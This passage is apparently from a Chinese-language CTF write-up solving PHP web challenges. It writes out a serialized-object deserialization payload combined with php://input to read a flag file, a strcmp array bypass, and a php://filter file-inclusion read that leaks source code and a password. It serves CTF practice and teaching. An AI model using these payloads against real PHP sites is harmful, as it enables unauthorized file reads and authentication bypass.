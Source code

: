 ```php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "Awwwwwwwwwww man";
    }
}
?>
```
由index.php得知通过file参数包含class.php，pass参数反序列化从fffffflag.php读取flag，访问“/?user=php://input&pass=O:4:"Read":1:{s:4:"file";s:13:"fffffflag.php";}&file=class.php”得到fffffflag.php源码
```php
<?php
error_reporting(E_ALL & ~E_NOTICE);
//flag{woyebuzhidaoyaononggeshaflagheshia}
?>
```
flag就是
```
flag{woyebuzhidaoyaononggeshaflagheshia}
```


#### ping(300)
> http://120.55.43.255:21173

查看网页源码
```html
There is a ping.php
<!--
    $password="****************";
     if(isset($_POST['password'])){
        if (strcmp($_POST['password'], $password) == 0) {
            echo "Right!!!login success";
            include($_REQUEST['path']);
            exit();
        } else {
            echo "Wrong password..";
        }
-->
```
password参数使用数组绕过，path参数通过“php://filter/read=convert.base64-encode/resource=”读取网页源码如下
```php
# index.php
<?php
    echo "There is a ping.php";
    $password="ACmvXfSFUayohrLB";
    if(isset($_POST['password'])){
        if (strcmp($_POST['password'],$password) == 0) {
            echo "Right!!!login success";
            include($_REQUEST['path']);
            exit();
        }
        else{
            echo "Wrong password..";
        }
    }
?>

<!--
    $password="****************";
     if(isset($_POST['password'])){
        if (strcmp($_POST['password'], $password) == 0) {
            echo "Right!!!login success";
```